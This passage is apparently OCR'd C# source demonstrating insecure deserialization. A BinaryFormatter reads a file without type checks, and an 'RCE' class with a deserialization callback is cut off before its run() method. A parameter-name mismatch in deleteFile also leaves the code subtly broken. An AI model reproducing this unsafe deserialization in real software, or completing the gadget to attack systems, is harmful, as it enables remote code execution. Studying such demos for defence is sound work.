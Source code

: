 ```cs
                BinarySerialization.desertDeserial(filename);
            }
            else
            {
                // Delete old file, if it exists
                BinarySerialization.deleteFile(filename);
                BinarySerialization.desertSerial(filename);
            }
            Console.WriteLine();
            Console.WriteLine("Press Enter Key");
            Console.Read();
        }

        public static void deleteFile(string filname)
        {
            if (File.Exists(filename))
            {
                Console.WriteLine("Deleting old file");
                File.Delete(filename);
            }
        }

        public static void desertDeserial(string filename)
        {
            var formatter = new BinaryFormatter();
            // Open stream for reading
            FileStream stream = File.OpenRead(filename);
            Console.WriteLine("Deserializing string");
            // Deserializing
            var desert = (Desert)formatter.Deserialize(stream);
            stream.Close();
        }

        public static void desertSerial(string filename)
        {
            // Create desert name
            var desert = new Desert();
            desert.name = "Gobi";
            // Persist to file
            FileStream stream = File.Create(filename);
            var formatter = new BinaryFormatter();
            Console.WriteLine("Serializing desert");
            formatter.Serialize(stream, desert);
            stream.Close();
        }
    }

    [Serializable]
    public class RCE : IDeserializationCallback
    {
        private String _cmd;
        public String cmd
        {
            get { return _cmd; }
            set
            {
                _cmd = value;
                run();
            }
        }

        private void run()
        {
```
